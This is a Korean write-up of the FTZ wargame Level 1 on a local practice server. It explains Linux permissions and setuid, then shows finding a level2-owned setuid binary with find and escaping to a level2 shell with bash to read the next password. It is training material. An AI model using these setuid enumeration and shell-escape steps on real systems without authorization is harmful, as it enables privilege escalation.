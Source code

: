 # FTZ Level 1 풀이

## <u>1. FTZ  Local 서버 기동 및 IP주소 확인</u>

![image-20210427193652995](https://user-images.githubusercontent.com/47252423/116798878-e4c6a100-ab2e-11eb-8b73-2d7025c5c200.png)

IP: 192.168.219.103

## <u>2. Xshell로 연결 및 Level 1 로그인</u>  

1. 등록 정보 및 연결 (ID: level1/ PW: level1)![image-20210427194712966](https://user-images.githubusercontent.com/47252423/116798881-f1e39000-ab2e-11eb-9d1a-1f7a85b384f1.png)

![image-20210427194841582](https://user-images.githubusercontent.com/47252423/116798887-01fb6f80-ab2f-11eb-9ef1-f05dbb19f987.png)
![image-20210427195004155](https://user-images.githubusercontent.com/47252423/116798889-04f66000-ab2f-11eb-809f-cbc2b97d7c88.png)

## <u>3. 풀이</u>

1. **ls 명령으로 디렉토리 탐색**

   ```
   [level1@ftz level1]$ ls
   hint  public_html  tmp
   ```
   
   
   
2. **hint 파일 내용 확인**

   ```
   [level1@ftz level1]$ cat hint
   
   
   level2 권한에 setuid가 걸린 파일을 찾는다.
   ```

   > ## setuid 관련 개념 정리
   >
   > **리눅스의 권한 체계(Permission)**
   >
   > - 권한 종류: 읽기(read), 쓰기(write), 실행하기(execute)
   >
   > - 권한 보기 Command: **ls -l** (또는 줄여서 ll)
   >
   > - 권한 구성
   >
   >   예) drwxrwxrwx 1 user1 user2    4096 Jul 11 11:11 file1.txt
   >
   >   1번째 문자: 파일(-), 디렉토리(d), 링크(l)
   >
   >   2~4번째 문자: 파일 소유주의 읽기/쓰기/실행하기 권한
   >
   >   5~7번째 문자: 파일 소유주 그룹의 읽기/쓰기/실행하기 권한
   >
   >   8~10번째 문자: 그 외 유저들의 읽기/쓰기/실행하기 권한
   >
   >   "1": 링크 수
   >
   >   "user1": 파일 소유주
   >
   >   "user2": 파일 소유 그룹
   >
   >   "4096 ": 파일 크기
   >
   >   " Jul 11 11:11": 파일 최종 수정 일시
   >
   >   "file1.txt": 파일명
   >
   > - 권한 변경 Command: **chmod**
   >
   >   예) chmod [변경하고자 하는 권한 값 (예. 777)] [파일 혹은 디렉토리]
   >
   > - 권한 고유 값: r(4), w(2), x(1)
   >
   > ---
   >
   > - setuid: 파일 실행 시 파일 소유자 권한으로 실행하는 것
   >
   > - 실행 권한이 s로 되어있다. (S = 실행권한 없는 setuid, s = 실행권한 포함 setuid)
   >
   > - setuid 만드는 방법: 권한설정을 4000번대로 준다. 예) chmod 4777 [파일]
   > - **setuid 파일 찾는 방법**: find [찾기 경로] -perm -4000 또는 find [찾기 경로] -perm +4000 
   >   - -: 해당하는 퍼미션 비트 포함
   >   - +: 해당하는 퍼미션 중 어느 하나라도 포함하는 경우

   

3. **현재 디렉토리에서 find Command로 찾아보기**

   - 조건1: setuid 설정 파일

   - 조건2: 소유자가 level2

     ```
     [level1@ftz level1]$  find / -perm -4000 -user level2 
     find: /lost+found: Permission denied
     find: /boot/lost+found: Permission denied
     find: /proc/1/fd: Permission denied
     find: /proc/2/fd: Permission denied
     find: /proc/3/fd: Permission denied
     ... 생략
     ```

     -> 권한 없는 파일에 대한 error 메시지 너무 많아서 보기 어려움,,
     해결: https://docs.microsoft.com/ko-kr/troubleshoot/cpp/redirecting-error-command-prompt
     (명령 프롬프트에서 오류 메시지 리디렉션: STDERR/STDOUT)

     ```
     [level1@ftz level1]$  find / -perm -4000 -user level2 2> /dev/null
     /bin/ExecuteMe
     ```

     

4. **ExecuteMe 파일 확인**

   ```
   [level1@ftz level1]$ cd /bin
   [level1@ftz bin]$ ls -al | grep ExecuteMe
   -rwsr-x---    1 level2   level1      12868 Sep 10  2011 ExecuteMe
   ```

   - 조건1 만족: rws ->실행권한이 s로 설정 = setuid 걸려있다.

   - 조건2 만족: level2 : 파일 소유주가 level2이다.

     

5. **ExecuteMe 파일 실행**

   		[level1@ftz bin]$ ./ExecuteMe
   		
   		레벨2의 권한으로 당신이 원하는 명령어를
   		한가지 실행시켜 드리겠습니다.
   		(단, my-pass 와 chmod는 제외)
   	
   		어떤 명령을 실행시키겠습니까?


   		[level2@ftz level2]$ 

   

6. **Shell 열어서 my-pass 명령어 시도**

   ```
   [level1@ftz bin]$ ./ExecuteMe
   
   ​	레벨2의 권한으로 당신이 원하는 명령어를
   ​	한가지 실행시켜 드리겠습니다.
   ​	(단, my-pass 와 chmod는 제외)
   
   ​	어떤 명령을 실행시키겠습니까?
   
   ​	[level2@ftz level2]$ bash
   
   
   [level2@ftz level2]$ my-pass
   ```

  ![image-20210427232055814](https://user-images.githubusercontent.com/47252423/116798898-1fc8d480-ab2f-11eb-85ff-7d4757f5a5c5.png)



**Level 2 Password 확인 완료.**



